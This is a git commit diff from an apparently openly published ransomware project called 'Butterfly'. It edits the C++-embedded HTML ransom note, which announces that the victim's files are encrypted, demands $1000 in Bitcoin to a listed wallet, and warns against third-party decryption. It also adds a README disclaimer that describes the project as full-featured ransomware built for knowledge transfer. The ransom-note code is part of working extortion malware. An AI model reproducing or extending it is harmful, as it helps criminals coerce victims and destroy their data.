

Added disclaimer to readme and updated the html encryption page

diff --git a/include/indexPage.h b/include/indexPage.h
@@ -72,22 +72,44 @@ const std::string INDEXPAGE = "<!DOCTYPE html>\n"
                               "        align-items: center;\n"
                               "        height: 200px;\n"
                               "    }\n"
-                              "    .centerImage {\n"
+                              "    .centerLock {\n"
                               "        display: block;\n"
                               "        margin-left: auto;\n"
                               "        margin-right: auto;\n"
                               "        width: 50%;\n"
                               "    }\n"
+                              "    .leftBfly {\n"
+                              "        position: absolute;\n"
+                              "        margin: auto;\n"
+                              "        top: 0;\n"
+                              "        left: 0;\n"
+                              "        right: 1900px;\n"
+                              "        bottom: 800px;\n"
+                              "    }\n"
+                              "    .rightBfly {\n"
+                              "        position: absolute;\n"
+                              "        margin: auto;\n"
+                              "        top: 800px;\n"
+                              "        left: 1900px;\n"
+                              "        right: 0;\n"
+                              "        bottom: 0;\n"
+                              "    }\n"
+                              "    ul {\n"
+                              "        padding-left: 880px;\n"
+                              "        list-style-position: inside;\n"
+                              "    }\n"
                               "</style>\n"
                               "<body style=\"background-color: red\">\n"
[4 lines of base64/hex data omitted]
+                              "\n"
                               "<h1 style=\"text-align:center\">ALL YOUR FILES HAVE BEEN ENCRYPTED</h1>\n"
                               "<p style=\"color: black; text-align: center; font-size: 20px\">\n"
                               "    Your important files are encrypted.<br>\n"
-                              "    Many of your documents, photos, videos, databases and other files are no longer accessible because they have been encrypted.\n"
+                              "    Many of your documents, photos, videos, databases and other files are no longer accessible because they have been encrypted.<br>\n"
                               "    Maybe you are busy looking for a way to recover your files, but do not waste your time. <br></p>\n"
                               "<h3 style=\"text-align: center;\">Nobody can recover your files without our decryption service.</h3>\n"
-                              "\n"
                               "\n"
                               "<h1 style=\"text-align: center\">YOUR FILES WILL BE LOST IN</h1>\n"
                               "\n"
@@ -95,8 +117,19 @@ const std::string INDEXPAGE = "<!DOCTYPE html>\n"
                               "\n"
                               "<h2 style=\"text-align: center\">HOW DO I PAY?</h2>\n"
                               "<p style=\"color: black; text-align: center; font-size: 20px\">\n"
-                              "    Payment is accepted in Bitcoin only. Send 300$ worth of bitcoin to this address:<br><br></p>\n"
-                              "<h2 style=\"text-align: center\">bc1qxy2kgdydjrsqtzq4n0y5f2493p83kkfjhx0wlh</h2>\n"
+                              "    Payment is accepted in Bitcoin only. Send 1000$ worth of bitcoin to this address:<br><br></p>\n"
+                              "<h2 style=\"text-align: center; color: white\">bc1qxy2kgdydjrsqtzq4n0y5f2493p83kkfjhx0wlh</h2>\n"
+                              "\n"
+                              "<br>\n"
+                              "<br>\n"
+                              "<h2 style=\"text-align: center\">ATTENTION!</h2>\n"
+                              "\n"
+                              "<div class=\"ul\" style=\"color: black; font-size: 20px\">\n"
+                              "    <ul>\n"
+                              "        <li>Do not rename encrypted files</li>\n"
+                              "        <li>Do not try to decrypt your data using third party software, it may cause permanent data loss</li>\n"
+                              "    </ul>\n"
+                              "</div>\n"
                               "\n"
                               "</body>\n"
                               "</head>\n"

diff --git a/README.md b/README.md
@@ -15,6 +15,13 @@ Butterfly is a cryptographic ransomware with the following features
 - Connection to the TOR Network :x:
 - Bitcoin Payments :x:
 
+## Disclaimer
+
+Butterfly is a full-featured cryptographic ransomware application that irrevocably encrypts your data. The main reason
+for the butterfly development was the knowledge transfer and some security aspects. <br>
+
+**Butterfly was not supposed to harm or threat other computers**
+
 ## Dependencies
 
 Install openssl and boost filesystem libraries
